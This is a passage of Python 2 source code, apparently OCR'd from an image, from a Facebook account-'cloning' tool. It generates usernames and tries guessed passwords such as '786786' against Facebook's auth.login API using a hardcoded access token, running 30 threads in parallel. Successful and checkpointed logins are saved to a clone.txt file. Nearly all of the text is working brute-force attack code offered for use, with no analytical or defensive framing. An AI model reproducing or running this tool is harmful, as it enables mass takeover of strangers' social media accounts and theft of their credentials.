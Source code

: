                                     cps.write(k + c + user + pass6 + '\n')
                                    cps.close()
                                    cpb.append(c + user + pass6)
                                else:
                                    pass7 = '786786'
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass7 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;92m[Sucsesfully]  ' + k + c + user + '  \x1b[1;97m|  ' + pass7
                                        okb = open('anggaxd/clone.txt', 'a')
                                        okb.write(k + c + user + pass7 + '\n')
                                        okb.close()
                                        oks.append(c + user + pass7)
                                    elif 'www.facebook.com' in q['error_msg']:
                                        print '\x1b[1;93m[Checkpoint] \x1b[1;97m' + k + c + user + '  \x1b[1;97m|  ' + pass7
                                        cps = open('anggaxd/clone.txt', 'a')
                                        cps.write(k + c + user + pass7 + '\n')
                                        cps.close()
                                        cpb.append(c + user + pass7)
                                    else:
                                        pass8 = user
                                        data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass8 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                        q = json.load(data)
                                        if 'access_token' in q:
                                            print '\x1b[1;92m[Sucsesfully]  ' + k + c + user + '  \x1b[1;97m|  ' + pass8
                                            okb = open('anggaxd/clone.txt', 'a')
                                            okb.write(k + c + user + pass8 + '\n')
                                            okb.close()
                                            oks.append(c + user + pass8)
                                        elif 'www.facebook.com' in q['error_msg']:
                                            print '\x1b[1;93m[Checkpoint] \x1b[1;97m' + k + c + user + '  \x1b[1;97m|  ' + pass8
                                            cps = open('anggaxd/clone.txt', 'a')
                                            cps.write(k + c + user + pass8 + '\n')
                                            cps.close()
                                            cpb.append(c + user + pass8)
        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print '\x1b[1;97m--------------------------------------------------'
    print '[\xe2\x9c\x93] Process Has Been Completed ...'
    print '[\xe2\x9c\x93] Total Successfully/Checkpoint : ' + str(len(oks)) + '/' + str(len(cpb))
    print '[\xe2\x9c\x93] Cloned Accounts Has Been Saved : anggaxd/clone.txt'
    raw_input('\n\x1b[1;97m[\x1b[1;97mBack\x1b[1;95m]')
    menu()


if __name__ == '__main__':
    menu()